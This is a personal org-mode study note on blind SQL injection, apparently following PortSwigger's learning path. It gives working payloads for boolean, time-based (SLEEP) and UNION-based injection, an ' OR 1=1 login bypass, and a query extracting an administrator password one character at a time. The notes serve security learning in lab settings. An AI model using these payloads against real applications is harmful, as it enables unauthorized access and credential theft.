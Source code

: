 #+title: Blind SQL Injection
#+description: Notes about Blind SQL injection attack from learning path of Portswigger
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]

* Table of Contens :toc:
- [[#what-is-blind-sql-injection][What is Blind SQL Injection]]
- [[#exploiting-blind-sql-injection-by-triggering-conditional-response][Exploiting Blind SQL injection by triggering conditional response]]
- [[#authentication-bypass][Authentication Bypass]]
- [[#boolean-based][Boolean Based]]
- [[#time-based][Time Based]]

* What is Blind SQL Injection
Blind SQL injection arises when an application is vulnerable to SQL injeciton, but it's HTTP responses do not contain the results of the relevant SQL query or the details of any database errors

Many techniques such as ~UNION~ attacks are not effective because they rely on beign able to see the results of the injected query within the application's response

* Exploiting Blind SQL injection by triggering conditional response
An application uses tracking cookies to track about usages like
~Cookie: TrackingID=somerandomstring~
It use a SQL query like this
#+begin_src sql
  SELECT TrackingID FROM TrackedUsers WHERE TrackingID = 'somerandomstring'
#+end_src
This query is vulnerable to SQL injection, but the result from the query are not returned to the users. This is blind SQL injection. However, the application does behave differently depending on whether the query returns any data. If it returns data(because a recognized TrackingID was submitted), then a 'Welcome Back' message is displayed within the page. This behaior is enough to exploit the blind SQL injection vulnerability.

#+begin_src sql
  ' AND '1'='1 
  ' AND '1'='2
#+end_src
The first of these values will cause the query to return results, because the injected ~AND '1'='1~ condition is true and so the 'Welcome Back' message will be displayed. But second value will cause the query to not return any results, because the injected condition is false, and the message will not be displayed. /This allows us to determine the answer to any single injected condition, and so extract data one bit at a time./

#+begin_src sql
  xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
#+end_src

*** Lab
- [[https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses][Blind SQL injection with conditional responses]]

* Authentication Bypass
In login machanism
#+begin_src sql
  select * from users where username='%username%' and password='%password%' LIMIT 1;
#+end_src
=%username%= and =%password%= values are take from the login form. To make this into a query that always return true, we can enter into password field
#+begin_src sql
 ' OR 1=1;-- 
#+end_src
Which turn the SQL query into
#+begin_src sql
 select * from users where username='%username%' and password='%password%' OR 1=1; 
#+end_src
Since 1=1 always true and use or operator so this query will always return true

* Boolean Based
+ determine number of columns
#+begin_src sql
 admin123' UNION SELECT 1;-- 
#+end_src
/increase until succeed/
#+begin_src sql
 admin123' UNION SELECT 1,2,3;-- 
#+end_src
+ retrieve database name
#+begin_src sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
#+end_src
+ retreive table name
#+begin_src sql
 admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';-- 
#+end_src
+ retrieve column name
#+begin_src sql
  admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
#+end_src
* Time Based
- similar to boolean based query
- indicator of a correct query is based on the time the query takes to complete.
- determine the number of column
#+begin_src sql
admin12' UNION SELECT SLEEP(5);--
#+end_src
/if there is no pause in the response time, we know the query was unsuccessful, so have to add another column/
#+begin_src sql
 admin12' UNION SELECT SLEEP(5),2;--
#+end_src
